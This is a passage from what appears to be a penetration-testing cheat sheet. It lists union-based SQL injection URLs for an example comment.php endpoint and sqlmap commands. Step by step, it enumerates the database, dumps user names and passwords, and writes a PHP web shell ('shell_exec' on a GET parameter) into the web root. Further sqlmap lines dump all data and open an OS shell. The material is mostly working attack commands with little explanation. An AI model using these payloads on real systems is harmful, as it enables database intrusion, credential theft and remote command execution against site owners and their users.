         `http://$ip/comment.php?id=738 order by 1`

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6  `

        Determine MySQL Version:

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6  `

        Current user being used for the database connection:

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6  `

        Enumerate database tables and column structures

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables  `

        Target the users table in the database

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where        table_name='users'  `

        Extract the name and password

        `http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users `

        Create a backdoor

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE        'c:/xampp/htdocs/backdoor.php'`


    -   **SQLMap Examples**

      - Crawl the links

         `sqlmap -u http://$ip --crawl=1`

         `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`


      - SQLMap Search for databases against a suspected GET SQL Injection

        `sqlmap –u http://$ip/blog/index.php?search –dbs`

      - SQLMap dump tables from database oscommerce at GET SQL injection

        `sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps `

      - SQLMap GET Parameter command

         `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5  `

      - SQLMap Post Username parameter

          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all`

      - SQL Map OS Shell

          `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell  `

          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell`

